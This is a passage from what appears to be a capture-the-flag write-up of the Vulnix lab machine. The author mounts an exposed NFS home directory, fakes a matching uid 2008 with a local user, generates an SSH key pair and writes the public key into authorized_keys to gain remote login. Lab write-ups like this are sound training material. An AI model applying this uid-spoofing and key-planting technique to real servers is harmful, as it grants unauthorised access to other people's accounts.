 Now I was able to access the share:

``` 
nfs> ls -l
drwxr-x---  2     2008  2008      4096  Sep  2  2012  .
drwxr-x---  2     2008  2008      4096  Sep  2  2012  ..
drwxr-x---  2     2008  2008      4096  Sep  2  2012  .bash_logout
drwxr-x---  2     2008  2008      4096  Sep  2  2012  .bashrc
drwxr-x---  2     2008  2008      4096  Sep  2  2012  .profile
```

Since this is vulnix's home directory, we can put an SSH key in here to allow remote access. I tried the next steps through nfsshell, but I was limited in the commands I could run. So I created a local vulnix user on my machine, and assigned it the uid 2008: <code>root@kali:~# useradd vulnix -u 2008</code>. Then I generated an SSH key pair from this account:

``` 
root@kali:~# su vulnix
$ id
uid=2008(vulnix) gid=2008(vulnix) groups=2008(vulnix)
$ cd /tmp
$ ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/vulnix/.ssh/id_rsa): vulnix
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in vulnix.
Your public key has been saved in vulnix.pub.
The key fingerprint is:
SHA256:P6FAPt9R/0TbOTtQUhk8SiBUlgAtINciO0mUmr2Nrp4 vulnix@kali
The key's randomart image is:
+---[RSA 2048]----+
|  .o.oo.++o+o .oo|
|   +o. o .o. ..+ |
|  = + o .   o...o|
| o = o     . oo.+|
|    = + S o  ..+o|
|   o . + + o  .oo|
|  .     o +    o.|
|  ..       .    .|
|.E.              |
+----[SHA256]-----+
```

I now navigated without problems to the NFS share, created a .ssh directory and copied the contents of the public key to *authorized_keys*:

``` 
$ cat /tmp/vulnix.pub > .ssh/authorized_keys
$ cat .ssh/authorized_keys
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCuO5LOA1EIJeaFJHHic7NRNIUvOhBApq7CSu7PAM/THU4hngoZ4kglgFC9QdbsfQsRWLHsDmNcAAGLzIKwkLYXWYanBK/7xdmRmtGf0Sr32zZ4NaXP9B228fjUu5LSi42X/9HcfL9QdfXuB336OvXo43sDzLifrzoiBzlviZV55+uVd+/hI0GCRE3Yi9JrLs1A6NhuHq8xtRLJURhuGwoouA2tGZ+6fSr7t23bC1emBnyUiy2hu/4oS9tLvvptPv1Md9E+Ire6XMjZzCJufcSqiMVrVefnWv5j460TjHhKP7aq23nbzlxMqkZ8r9ovm5KW0UWWWyVPkOFSxPgFEaRr vulnix@kali
```
